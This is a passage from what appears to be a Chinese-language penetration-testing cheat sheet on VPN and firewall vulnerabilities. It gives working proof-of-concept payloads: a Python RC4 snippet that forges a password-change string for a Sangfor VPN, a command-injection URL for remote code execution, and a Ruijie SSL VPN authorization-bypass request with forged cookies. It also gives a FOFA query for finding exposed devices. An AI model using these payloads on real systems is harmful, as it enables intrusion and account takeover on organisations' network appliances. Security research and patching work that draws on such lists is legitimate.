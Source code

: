     def rc4_decrpt_hex(data, key):
        rc41= ARC4. new(key)
        return rc41. decrypt(a2b_hex(data))

    key= '20100720'
    data = r',username-TARGET_USERNAME, ip-127.0.0.1,grpid-1, pripsw-suiyi , newpsw=TARGET PASSWORD,'
    print myRC4(data, key)
    ```

**RCE**
- 影响版本
    * SSLM7.6.6(20181120)
    * SSLM7.6.6R1(20181225)

- 相关文章
    - [深信服vpn逆向（挖洞）](https://www.cnblogs.com/unicodeSec/p/12326356.html)

- POC | Payload | exp
    ```
    https://x.com/por/checkurl.csp?url=http://127.0.0.1;sleep${IFS}5;&retry=0&timeout=1
    ```

#### 锐捷 SSL VPN

> FOFA: icon_hash="884334722" || title="Ruijie SSL VPN"

**锐捷 SSL VPN 越权访问漏洞**
- 相关文章
    - [锐捷SSL VPN 越权访问漏洞](https://mp.weixin.qq.com/s/acU0CNhyNkKl99o1Iv3N-w)

- POC | Payload | exp
    ```
    GET /cgi-bin/main.cgi?oper=getrsc HTTP/1.1
    Cookie: UserName=admin; SessionId=1; FirstVist=1; Skin=1; tunnel=1
    ```
    UserName 参数为已知用户名

#### Juniper SSL VPN

**相关文章**
- [Juniper SSLVPN / JunOS RCE and Multiple Vulnerabilities](https://octagon.net/blog/2022/10/28/juniper-sslvpn-junos-rce-and-multiple-vulnerabilities/)

---

### 威胁感知

#### Sophos UTM

**CVE-2020-25223-Sophos UTM WebAdmin 远程命令执行漏洞**
- 相关文章
    - [CVE-2020-25223-Sophos UTM WebAdmin 远程命令执行漏洞分析](https://mp.weixin.qq.com/s/y14JalXGMvlBwsUkrC3rnQ)

---
